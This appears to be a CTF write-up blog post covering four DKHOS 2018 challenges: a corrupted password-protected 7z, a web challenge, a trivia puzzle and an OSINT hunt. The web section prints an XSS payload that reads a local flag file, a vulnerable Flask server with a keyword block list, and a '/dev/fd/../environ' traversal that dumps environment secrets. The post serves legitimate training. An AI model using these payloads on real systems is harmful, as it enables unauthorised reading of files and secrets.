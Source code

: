 ```yaml
---
layout: post
comments: true
title:  "DKHOS CTF - Writeups"
date:   2018-02-19 15:04:23
categories: [CTF]
tags: [CTF, DKHOS]
resources:
- name: "featured-image"
  src: "featured-image.png"
---
```


---

### Forensic 300 - Hadi Hoppala ve de Cuppala 
---

The link provided in the task was a corrupted file with no clue.

![image](/post4/post4-9.jpg)

After a brief inspection on header, I understood that this was a [7z] file but got corrupted.

Found the instructions for proper header and footer values on http://www.7-zip.org/recover.html and started to work on this on the last 20 minutes but couldn't make it in time as I was having problem with CRC checksum.

![image](/post4/post4-10.jpg)

Just FYI, I also spend some time after CTF officially ended. This 7z file was also password protected. To crack it I used brute-forcing with rockyou and found 'piggies' was the password.

Flag:
```
DKHOS_{4l_G1rd1n_g1rd1n}
```
---

### Web 200 – Kımızım Kandan Bahtım Karadan

---

When we access to the ip provided, a web page with 'Not Found' text was welcoming us. After inspecting the website code we found the github repo of the [blog theme].

From here, first thing to do was actually Diff'ing the repo with the code in the site. And we've found a file upload section.
In here we also found an XSS vulnerability on Filename attribute and things were going really smooth!

With the code

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///flag.txt");
x.send();
</script>
```

We were able to get the fl.. Unfortunately, it wasn't that easy:).

Just under the page, we have seen the 'DEV' environment and thought this could be a virtual host. We prepared the query and get the response:

```python
import os
from flask import Flask, request
app = Flask(__name__)
blist = (
'proc',
'www',
'var',
'etc',
'root',
'home',
'self',
'flag'
)
def get_flag():
    return os.environ.get('FLAG', '')
def super_firewall(path):
    for b in blist:
        if b in path:
            return False
    return True 
@app.route("/")
def hello():
    return "internal file storage, /file?name="
@app.route("/file")
def get_file():
    name = request.args.get('name', 'server.py')
    if not name:
        name = 'server.py'
    status = super_firewall(name)
    if not status:
        return "access denied"
    with open(name, 'r') as fp:
        content = fp.read()
        return content
if __name__ == '__main__':
    app.run(debug=False)
```

From here, it can be seen as FLAG was stored as an environment variable and we have to echo it somehow. In order to do it, we also need to bypass this mini filter blist.

After couple of trial and errors we prepared the query as:
```
/file?name=/dev/fd/../environ
```

and we got the flag:
```
LANG=en_US.UTF-8SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sockSUPERVISOR_ENABLED=1SUPERVISOR_PROCESS_NAME=internal
FLAG=DKHOS_{y0u_g0t_m3_pyth0n1st4}SUPERVISOR_GROUP_NAME=internalPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

---

### Trivia 400 – Kişi Faizi
---
Right after seeing this 'intentional English translation fails', I directly understood this was about TV Series 'Person of Interest' from the title.

![image](/post4/post4-1.jpg)

In the description, a document about Frank Stephens's death was mentioned and the flag was the date on it.  After a brief search on the net, I found the Season 1 Episode 3 could be helpful but watching the whole episode didnt make any sense. Thus I found the episode conversation script and searched for the name.

![image](/post4/post4-2.jpg)

After guessing the time according to these, the document with the flag was on that exact frame.

![image](/post4/post4-3.jpg)

---
### Cyber Intelligence 300 – Naber?
---

From the task description, it was clear that this was a social platform lookup.

![image](/post4/post4-4.jpg)

On the instagram, I've found the user with an interesting share. If looked closer, it can be understood that it was a github account!

![image](/post4/post4-5.jpg)

There was nothing suspicious on this repo as it was just a fork of another repo. Then in the commits I've found some nasty stuff.

![image](/post4/post4-6.jpg)

From here, I found the pastebin account:

![image](/post4/post4-7.jpg)

There was a strange text with a code in this pastebin. After trying telegram groups, we wanted to try whatsapp and found the flag as the name of the group!.



[blog theme]: https://github.com/BlackrockDigital/startbootstrap-clean-blog/tree/gh-pages
[7z]: http://www.7-zip.org
[The Foundation for Children with Leukemia]: http://www.losev.org.tr
[Invictus/Prodaft]: https://www.invictuseurope.com/
[Siberyildiz]: https://www.siberyildiz.com/
[Twitch]: https://www.twitch.tv/hackingwars

